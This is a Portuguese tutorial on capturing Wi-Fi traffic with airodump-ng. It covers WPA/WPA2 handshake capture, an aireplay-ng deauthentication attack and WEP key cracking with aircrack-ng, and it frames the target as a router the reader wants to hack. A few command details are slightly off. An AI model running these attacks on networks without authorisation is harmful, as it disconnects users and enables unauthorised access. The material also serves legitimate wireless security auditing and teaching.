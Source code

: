 #### Comandos e Opções Principais

1. **Iniciar Captura Básica:**
```bash
sudo airodump-ng wlan0mon
```
- Aqui, `wlan0mon` é a interface no modo monitor, criada anteriormente com `airmon-ng`.

2. **Captura Focada em um Canal e BSSID Específico:**
```bash
sudo airodump-ng [interface] -c [canal] --bssid [BSSID] -w [prefixo_do_arquivo]
```
- `-c [canal]` especifica o canal da rede alvo.
- `--bssid [BSSID]` filtra apenas os pacotes do ponto de acesso com o BSSID fornecido.
- `-w [prefixo_do_arquivo]` define o prefixo para os arquivos de saída onde os dados capturados serão armazenados. Arquivo em formato `.hccapx` \ `.pcap`

3. **Captura de Pacotes WPA/WPA2 para Tentativa de Quebra de Chave:**

Esse tipo de ataque envia um pacote de desautenticação ao roteador que você quer hackear, fazendo com que a internet seja desconectada e pedindo que o usuário faça login novamente. Depois que o login é feito, o aperto de mão será realizado.

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```
- Este comando captura pacotes do ponto de acesso com BSSID `00:11:22:33:44:55` no canal 6, salvando os dados com o prefixo `capture`.

Agora temos que esperar que um dispositivo se conecte à rede, mas existe uma maneira melhor de capturar um aperto
de mão. Podemos desautenticar os dispositivos para o AP usando um ataque de desautenticação usando o seguinte
comando:

```bash
sudo aireplay-ng -0 -a E4:6F:13:04:CE:31
```
- **-a**: Bssid da rede de destino
- **-0**: Ataque de desautenticação


4. **Exibir Redes em Canais Específicos:**
```bash
sudo airodump-ng --channel 1,6,11 wlan0mon
```
- Monitora os canais 1, 6 e 11, comuns em redes Wi-Fi.

### Análise e Exploração dos Dados Capturados

Após capturar os pacotes com `airodump-ng`, os dados podem ser usados para várias análises:

1. **Quebra de Chaves WEP:**
- Utilizando os IVs coletados, `aircrack-ng` pode tentar quebrar a chave WEP.

- Comando:
```bash
aircrack-ng -b 00:11:22:33:44:55 capture*.cap
```
